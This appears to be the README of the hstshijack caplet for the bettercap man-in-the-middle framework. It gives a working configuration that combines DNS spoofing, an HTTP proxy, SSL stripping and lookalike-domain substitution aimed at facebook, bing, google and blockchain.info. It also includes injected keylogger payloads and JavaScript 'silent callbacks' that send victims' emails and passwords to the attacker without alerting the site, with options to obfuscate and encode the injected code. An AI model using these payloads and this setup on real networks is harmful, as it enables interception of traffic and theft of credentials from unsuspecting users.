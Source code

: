 <p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
set hstshijack.log             /usr/share/bettercap/caplets/hstshijack/ssl.log
set hstshijack.ignore          *
set hstshijack.targets         *.facebook.com, *.bing.com, www.*, *.com, *.net,*.org
set hstshijack.replacements    *.facebook.corn,*.bing.corn,wvvw.*,*.corn,*.nel,*.orq
#set hstshijack.blockscripts    facebook.com,*.facebook.com
set hstshijack.obfuscate       false
set hstshijack.encode          true
set hstshijack.payloads        *:/usr/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/share/bettercap/caplets/hstshijack/payloads/keylogger.js,*.google.com:/usr/share/bettercap/caplets/hstshijack/payloads/google.js,google.com:/usr/share/bettercap/caplets/hstshijack/payloads/google.js

set http.proxy.script  /usr/share/bettercap/caplets/hstshijack/hstshijack.js
set dns.spoof.domains  wvvw.*,*.corn,*.nel,*.orq

http.proxy  on
dns.spoof   on
```

### Core payload

This module injects HTML & JS files with a payload that spoofs your targeted hostnames and communicates with bettercap, revealing all URLs that were discovered in the injected document.

When bettercap receives a callback with a new URL, it sends a HEAD request to learn whether the host in this URL sends HTTPS redirects, and keeps a log.

This is done so that bettercap can know whether it should MITM an SSL connection with a host, before the victim navigates to it.

### Inject payloads

You can also inject your own JavaScript payloads into HTML & JS files from specific hosts by assigning them to the `hstshijack.payloads` variable.

Example:

```sh
hstshijack.payloads *:/usr/share/bettercap/caplets/hstshijack/payloads/keylogger.js,*.google.com:/usr/share/bettercap/caplets/hstshijack/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the client navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https` instances in `<a>`, `<form>`, `<iframe>` and `<script>` elements.

### Obfuscation

By setting `hstshijack.obfuscate` to `true`, any instance in your payloads beginning with `obf_` will be obfuscated automatically. It's good practice to include unique prefixes/suffixes so that your variable names do not match those in other payloads.

Example:

```js
function obf_function_mySuffix() {
  alert("Random variable: obf_whatever_follows")
}

obf_function_mySuffix()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJW")
}

jfIleNwmKoa()
```

### Encoding

Payloads can be injected in HTML documents using base64 encoded data URLs.

To enable payload encoding, set `hstshijack.encode` to `true`.

### Silent callbacks

You can write custom payloads that send data to bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?email=" + email + "&password=" + password)
  req.send()
}
```
<sup>Note: Every instance of `obf_path_callback` will be replaced with the callback path, every instance of `obf_path_whitelist` will be replaced with the whitelist path, and every instance of `obf_path_ssl_log` will be replaced with the SSL log path.</sup>

The code above will send a POST request that will be sniffed by bettercap, but not proxied. 

### Whitelisting callbacks

You can stop attacking a client on a certain host when you receive a request from that client for the whitelist path. The whitelist path will be inserted wherever you have `obf_path_whitelist` written in your payloads.

Example of whitelisting callbacks:

```js
// Whitelist multiple domains

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_path_whitelist?email=" + email + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_path_whitelist")
  req.send()
}
```

When the bettercap proxy receives such a request, it will stop attacking clients on the requested (original and spoofed) host(s). If a spoofed location is requested that was whitelisted, the client will then be redirected to the intended location.

Note that if the hostnames you are whitelisting are HSTS preloaded, you have to send the whitelist callback to the spoofed hostnames, otherwise the browser will enforce a HTTPS connection, and bettercap will not be able to intercept the requests.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections with this host when possible.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every hostname you assign to `hstshijack.targets` you must assign a replacement domain to the `hstshijack.replacements` variable.

Example:

```sh
set hstshijack.targets       www.*, *.com, blockchain.info,*.blockchain.info
set hstshijack.replacements  wvvw.*,*.corn,blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.
